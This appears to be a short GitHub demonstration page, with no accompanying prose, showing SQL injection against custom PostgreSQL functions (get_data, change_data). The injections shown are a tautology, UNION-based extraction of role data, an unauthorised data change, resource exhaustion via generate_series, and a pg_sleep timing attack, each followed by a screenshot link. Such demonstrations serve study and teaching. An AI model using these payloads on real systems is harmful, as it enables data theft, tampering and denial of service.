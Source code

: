 SELECT * FROM get_data('1'' OR 1=1 -- ');

![1](https://user-images.githubusercontent.com/93474882/209405816-2bb1f85d-456b-465e-8daf-b1f3102d32db.png)

SELECT * FROM get_data('1'' UNION SELECT CAST(access_level AS INTEGER), 
CAST(role_name AS VARCHAR), 
CAST(NULL AS date) 
FROM role_access_level -- ');

![2](https://user-images.githubusercontent.com/93474882/209405849-af1c9565-99ce-48da-9260-acd1f409ab84.png)

SELECT * FROM change_data('1'' OR role_name = ''samer'' -- ', 3);

![3](https://user-images.githubusercontent.com/93474882/209405987-12bf6676-e05f-4300-a16d-46bfc53f1c14.png)

SELECT * FROM get_data('1'' UNION
(SELECT p1, 
CAST(p1 AS VARCHAR), 
CAST(p1 AS INTEGER)
FROM (SELECT generate_series p1 FROM generate_series (1,1000)) t1
CROSS JOIN (SELECT * FROM generate_series (1,1000) t2) t3) -- ');

![4](https://user-images.githubusercontent.com/93474882/209406168-1a29ad53-f82c-4d88-a63e-faa52fb10901.png)

SELECT * FROM get_data('1'' OR EXISTS (SELECT 1 FROM PG_SLEEP(30)) -- ');

![5](https://user-images.githubusercontent.com/93474882/209406259-455c8d7e-07f6-4ea8-aace-45a0afaeb6b9.png)


